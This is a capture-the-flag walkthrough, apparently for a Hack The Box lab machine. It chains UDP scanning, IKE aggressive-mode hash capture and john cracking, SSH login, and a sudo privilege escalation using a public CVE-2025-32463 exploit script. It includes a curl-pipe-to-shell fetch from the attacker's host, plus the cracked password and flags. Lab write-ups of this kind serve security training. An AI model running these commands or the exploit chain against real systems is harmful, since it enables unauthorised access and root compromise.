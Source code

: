 ```yaml
---
layout: default
title: Expressway
---
```


## TL;DR

We achieve hash and crack it from the `ike` server in port 500. Then we exploit known PE vector on sudo version to get root privileges.

### Recon

We start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap results](image.png)

```bash
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
7958/tcp  filtered unknown
15520/tcp filtered unknown
17165/tcp filtered unknown
25481/tcp filtered unknown
26111/tcp filtered unknown
26688/tcp filtered unknown
34466/tcp filtered unknown
47939/tcp filtered unknown
61696/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I've tried to brute force using `nmap`, this command, but i got nothing:
```bash
nmap -p 22 --script ssh-brute $target   
```
Then, I used the flag `-sU` to scan also `UDP` ports:
```bash
nmap -sU $target --min-rate=10000
```
And we did get:
```bash
PORT      STATE  SERVICE
500/udp   open   isakmp
17207/udp closed unknown
21803/udp closed unknown
23176/udp closed unknown
40116/udp closed unknown
49190/udp closed unknown
49201/udp closed unknown
```
So, we have the port `500` open, and running the service `isakmp`.

### achieve hash and crack it

Okay, we can google for it, and find this article: [https://angelica.gitbook.io/hacktricks/network-services-pentesting/ipsec-ike-vpn-pentesting](https://angelica.gitbook.io/hacktricks/network-services-pentesting/ipsec-ike-vpn-pentesting)

When we execute this
```bash
ike-scan -M -A $target
```
![get ike](image-2.png)

as we can see, we got some details about the key.

We can use more aggressive mode, and by this way achieve the hash that we will crack using `john`, the hash of the user `ike`.

```bash
┌──(agonen㉿kali)-[~/htb/Expressway]
└─$ ike-scan -M -A  $target  --pskcrack=hash.txt -n ike@expressway.htb
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned
        HDR=(CKY-R=a34c14be44d2c76c)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.176 seconds (5.67 hosts/sec).  1 returned handshake; 0 returned notify
```

![achieve hash](image-2.png)

Now, let's transfrom it into `john`, using `ikescan2john`:
```bash
ikescan2john hash.txt > hash_to_crack.txt
```

And we just need to crack it using `john`:
```bash
john hash_to_crack.txt --wordlist=/usr/share/wordlists/rockyou.txt       
```

The password is `freakingrockstarontheroad`.

### Connect using ssh

Let's connect using `ssh` and the password we achieved, which is `freakingrockstarontheroad`:
```bash
ssh ike@$target
```
![ssh connect](image-4.png)

now, the user flag can be found in `/hone/ike/user.txt`:
```bash
ike@expressway:~$ cat /home/ike/user.txt
93092f0e609abb35cc2d3ff19c4d2d25
```

### Privilege escalation

First, we want to download the linPEAS, so i download it to my local machine:
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linPEAS.sh
```
and then set up an http server:
```bash
python3 -m http.server 8081
```

Now, we can access it from the remote machine
```bash
curl -L http://10.10.14.168:8081/linPEAS.sh | sh
```

As we can see, the sudo version is `1.9.17`.
![sudo version](image-5.png)

After googling, i found this repo about the privilege escalation in this version: [https://github.com/K3ysTr0K3R/CVE-2025-32463-EXPLOIT](https://github.com/K3ysTr0K3R/CVE-2025-32463-EXPLOIT)

Let's get the `exploit.sh`, so in our local machine:
```bash
curl -L https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2025-32463-EXPLOIT/refs/heads/main/CVE-2025-32463.sh -o CVE-2025-32463.sh

python3 -m http.server 8081
```

and on the remote machine
```bash
curl -L http://10.10.14.168:8081/CVE-2025-32463.sh -o /tmp/CVE-2025-32463.sh
chmod +x /tmp/CVE-2025-32463.sh
/tmp/CVE-2025-32463.sh
```
![escalate privilege](image-6.png)

and now just getting the flag:
```bash
root@expressway:/# cat /root/root.txt
4975c6bab82fddda6d3028507713e49b
```

![root flag](image-1.png)

**User Flag:*****`93092f0e609abb35cc2d3ff19c4d2d25`***

**Root Flag:*****`4975c6bab82fddda6d3028507713e49b`***
